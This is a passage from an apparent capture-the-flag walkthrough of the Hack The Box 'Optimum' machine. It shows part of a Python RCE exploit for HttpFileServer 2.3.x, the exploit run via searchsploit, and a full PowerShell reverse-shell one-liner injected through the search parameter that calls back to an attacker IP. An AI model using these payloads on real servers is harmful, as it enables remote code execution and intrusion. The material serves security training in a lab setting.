 ```python
	http = urllib3.PoolManager()	
	url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
	print(url)
	response = http.request('GET', url)
	
except Exception as ex:
	print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
	print(ex)
```
{% endraw %}

Running it ouputs a URL. It seems to be a null-byte vulnerability in the search field

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit -m windows/webapps/49125.py
Copied to: /home/mac/Documents/HTB/optimum/49125.py
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ mv 49125.py HttpFileServerRCE.py
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ python3 HttpFileServerRCE.py 10.10.10.8 80 whoami
http://10.10.10.8:80/?search=%00{.+exec|whoami.}
```

Visiting the URL doesn't output the result anywhere:
![](/assets/images/blogs/Pasted image 20210613111557.png)

We might have to jump straight to a powershell reverse shell. If we knew the directory of the webserver we could do a staged payload (it might be `c:\inetpub\wwwroot` but we can't know for sure, and it doesn't seem to be IIS)

I tried this to try and get a shell:

`10.10.10.8/?search=%00{.+exec|powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.211',413);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()".}`

But no result. I checked if I could connect out to my box, but this also didn't work:

`10.10.10.8/?search=%00{.+exec|ping -n 1 10.10.16.211.}`

An alternate searchsploit term yielded more reuslts:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit hfs
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apple Mac OSX 10.4.8 - DMG HFS+ DO_HFS_TRUNCATE Denial of Service                                                                                                      | osx/dos/29454.txt
Apple Mac OSX 10.6 - HFS FileSystem (Denial of Service)                                                                                                                | osx/dos/12375.c
Apple Mac OSX 10.6.x - HFS Subsystem Information Disclosure                                                                                                            | osx/local/35488.c
Apple Mac OSX xnu 1228.x - 'hfs-fcntl' Kernel Privilege Escalation                                                                                                     | osx/local/8266.txt
```